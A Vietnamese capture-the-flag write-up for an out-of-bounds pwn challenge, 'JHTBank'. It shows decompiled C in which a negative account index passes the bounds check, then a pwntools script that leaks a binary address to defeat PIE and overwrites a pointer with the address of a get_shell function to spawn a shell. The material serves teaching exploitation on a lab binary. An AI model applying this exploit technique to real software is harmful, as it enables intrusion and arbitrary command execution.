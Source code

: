 # Decription

Lỗi Out-of-Bounds xảy ra khi chương trình truy xuất dữ liệu bên ngoài phạm vi hợp lệ của bộ nhớ được cấp phát, thường là mảng hoặc buffer. Điều này có thể gây ra:

    Sập chương trình (crash)

    Ghi đè dữ liệu khác trong bộ nhớ

    Lộ thông tin nhạy cảm

    Thực thi mã độc (trong một số trường hợp nghiêm trọng)

Nguyên nhân thường là do:

    Không kiểm tra giới hạn (bounds checking)

    Gán sai kích thước buffer

    Sử dụng sai số lượng byte đọc/ghi
    
# Code

```c
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  int v4; // [rsp+0h] [rbp-20h] BYREF
  int v5; // [rsp+4h] [rbp-1Ch] BYREF
  unsigned __int64 v6; // [rsp+8h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("------ JHTBank ------");
  while ( 1 )
  {
    main_menu();
    __isoc99_scanf("%d", &v5);
    if ( v5 != 1 )
      break;
    printf("Index: ");
    __isoc99_scanf("%d", &v4);
    if ( v4 <= 9 )
    {
      account_menu();
      __isoc99_scanf("%d", &v5);
      if ( v5 == 4 || v5 == 3 || v5 == 2 )
      {
        if ( *((_QWORD *)&acc + 2 * v4) )
        {
          if ( v5 == 4 )
          {
            printf("Name: %s\n", *((const char **)&acc + 2 * v4));
            printf("Amount: %lu\n", qword_3608[2 * v4]);
          }
          else if ( v5 == 2 )
          {
            printf("Enter name: ");
            __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
          }
          else
          {
            printf("Enter amount: ");
            __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
          }
        }
        else
        {
          puts("You didn't create this account!");
        }
      }
      else if ( v5 == 1 )
      {
        v3 = v4;
        *((_QWORD *)&acc + 2 * v3) = malloc(0x50uLL);
        printf("New name: ");
        __isoc99_scanf("%80s", *((_QWORD *)&acc + 2 * v4));
        printf("New amount: ");
        __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8);
      }
      else
      {
        puts("Invalid choice!");
      }
    }
    else
    {
      puts("You can have maximum 10 accounts");
    }
  }
  exit(0);
}
int get_shell()
{
  return system("/bin/sh");
}

int account_menu()
{
  puts("1. Create new account");
  puts("2. Change name");
  puts("3. Change money");
  puts("4. Show info");
  return printf("> ");
}

int main_menu()
{
  puts("1. Select an account");
  puts("2. Exit");
  return printf("> ");
}

void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
```
Create By JHT HUU TRI


# Problem

Ta thấy rằng mặc dù  __isoc99_scanf("%lu", (char *)&acc + 16 * v4 + 8); là nhập vào số nguyên dương nhưng khi khai 

báo biến không chỉ định là dương hay âm nên ta có thể lợi dụng nó để vượt lên trên ra ngoài phạm vi của ìdx, leak các giá trị nhạy cảm.

# Solve

Ta thấy có hàm get_shell

Trong gdb, tại index -5 ta có địa chỉ của 1 hàm binary, leak nó ra và tính được địa chỉ base của binary ( DO pie hoạt động nên không thể trực tiếp nhảy vào shell)

Sau đó ta overwrite địa chỉ nào đó sẽ thực = get_shell (index -9)


```c
#!/usr/bin/python3

from pwn import *

context.binary = exe =ELF('./oob',checksec=False)

p=process(exe.path)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Index: ', b'-5')
p.sendlineafter(b'> ', b'4')
p.recvuntil(b'Name: ')
exe_leak = u64(p.recvline()[:-1] + b'\x00\x00')
exe.address = exe_leak - 13744
log.info("Exe lEak: " + hex(exe_leak))
log.info("Exe Base: " + hex(exe.address))


p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Index: ', b'-9')
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'amount: ', str(exe.sym.get_shell).encode())
p.sendlineafter(b'> ', b'2')
p.sendline(b'ls -al')


p.interactive()

```
